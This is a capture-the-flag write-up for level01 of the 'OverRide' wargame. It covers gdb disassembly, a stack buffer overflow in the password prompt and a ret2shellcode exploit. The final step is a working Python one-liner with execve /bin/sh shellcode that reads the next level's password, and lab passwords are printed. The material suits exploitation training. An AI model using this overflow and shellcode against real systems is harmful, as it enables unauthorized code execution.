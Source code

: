 ## TLTR;
Stack buffer overflow and ret2shellcode
***

```shell
┌──$ [~/42/2022/override]
└─>  ssh -p4242 192.168.0.23 -l level01
     ____                  ____  _     __
    / __ \_   _____  _____/ __ \(_)___/ /__
   / / / / | / / _ \/ ___/ /_/ / / __  / _ \
  / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
  \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.0.23:4242
level01@192.168.0.23's password: uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```
Three user functions and a global uninitialized variable of 100 bytes are declared.
```nasm
gdb-peda$ info functions
All defined functions:

[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
```
```shell
level01@OverRide:~$ objdump -t ./level01 | grep bss
[...]
0804a040 g     O .bss 00000064              a_user_name
```
Declaration and initialization of local array `user_pass` to value `0`.
```nasm
gdb-peda$ disass main
[...]
   0x080484d8 <+8>: sub    esp,0x60
   0x080484db <+11>:  lea    ebx,[esp+0x1c]
   0x080484df <+15>:  mov    eax,0x0
   0x080484e4 <+20>:  mov    edx,0x10
   0x080484e9 <+25>:  mov    edi,ebx
   0x080484eb <+27>:  mov    ecx,edx
   0x080484ed <+29>:  rep stos DWORD PTR es:[edi],eax
[...]
```
It gets a user name from `stdin`.
```nasm
gdb-peda$ disass main
[...]
   0x08048510 <+64>:  mov    eax,ds:0x804a020          # stdin
   0x08048515 <+69>:  mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:  mov    DWORD PTR [esp+0x4],0x100 # 256 bytes
   0x08048521 <+81>:  mov    DWORD PTR [esp],0x804a040 # a_user_name
   0x08048528 <+88>:  call   0x8048370 <fgets@plt>
[...]
```

It initialize `esi` register to point at `a_user_name` and the `edi` register to the string `dat_wil`. Then it repeats a comparaison of bytes as long as `[esi]` and `[edi]` are equal.
So input can begin with exact match and the rest part can be anything.
```nasm
gdb-peda$ disass verify_user_name
[...]
   0x08048478 <+20>:  mov    edx,0x804a040
   0x0804847d <+25>:  mov    eax,0x80486a8
   0x08048482 <+30>:  mov    ecx,0x7
   0x08048487 <+35>:  mov    esi,edx
   0x08048489 <+37>:  mov    edi,eax
   0x0804848b <+39>:  repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
gdb-peda$ x/s 0x804a040
0x804a040 <a_user_name>:  ""
gdb-peda$ x/s 0x80486a8
0x80486a8:  "dat_wil"
```
It gets a user password from `stdin` and calls `verify_user_pass` function.
```nasm
gdb-peda$ disass main
[...]
   0x0804855c <+140>: mov    eax,ds:0x804a020
   0x08048561 <+145>: mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>: mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>: lea    eax,[esp+0x1c]
   0x08048571 <+161>: mov    DWORD PTR [esp],eax
   0x08048574 <+164>: call   0x8048370 <fgets@plt>
   0x08048579 <+169>: lea    eax,[esp+0x1c]
   0x0804857d <+173>: mov    DWORD PTR [esp],eax
   0x08048580 <+176>: call   0x80484a3 <verify_user_pass>
[...]
```
Inside `verify_user_pass` it compares bytes of `user_pass` and litteral string `admin`, then return the result.
```nasm
[...]
gdb-peda$ disass verify_user_pass
[...]
   0x080484a8 <+5>:  mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:  mov    edx,eax
   0x080484ad <+10>: mov    eax,0x80486b0
   0x080484b2 <+15>: mov    ecx,0x5
   0x080484b7 <+20>: mov    esi,edx
   0x080484b9 <+22>: mov    edi,eax
   0x080484bb <+24>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>: seta   dl
   0x080484c0 <+29>: setb   al
[...]
gdb-peda$ x/s 0x80486b0
0x80486b0:  "admin"
```
But use of retrieved credentials, username `dat_wil` and password `admin`, do not allow anything and the program returns 1 with error message `nope, incorrect password...`.
```nasm
   0x08048589 <+185>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:   je     0x8048597 <main+199>
   0x08048590 <+192>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:   je     0x80485aa <main+218>
```
```shell
level01@OverRide:~$ ./level01; echo $?
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

1
```
`fgets()` reads in at most one less than 100 bytes from `stdin` and stores the input into the 64-bytes buffer `user_pass`. Which is 36 bytes more than allocated buffer. It means that `user_pass` variable can be overflowed and the value of `EIP` can be overwritten.
```nams
   0x0804855c <+140>:   mov    eax,ds:0x804a020          // eax = stdin
=> 0x08048561 <+145>:   mov    DWORD PTR [esp+0x8],eax   // stdin);
   0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64  // 100, stdin);
   0x0804856d <+157>:   lea    eax,[esp+0x1c]            // eax = user_pass
   0x08048571 <+161>:   mov    DWORD PTR [esp],eax       // user_pass, 100, stdin);
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>     // fgets(user_pass, 100, stdin);
```

To find offset, generate a string of 100 bytes legth using [BOEIPOSG](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/).
```nasm
(gdb) start
Temporary breakpoint 1 at 0x80484d5
Starting program: /home/users/level01/level01

Temporary breakpoint 1, 0x080484d5 in main ()
(gdb) c
Continuing.
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Program exit on `EIP` value 0x37634136 which gives offset of 80 bytes.

As `a_user_name` is defined with 100 bytes, a shell code can be placed after `dat_wil` and EIP overwritten to `a_user_name+7`.
```shell
level01@OverRide:~$ (python -c "import struct; print('dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\n' + 'A'*80 + struct.pack('I', 0x0804a047))"; echo 'cat /home/users/$(whoami)/.pass') | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
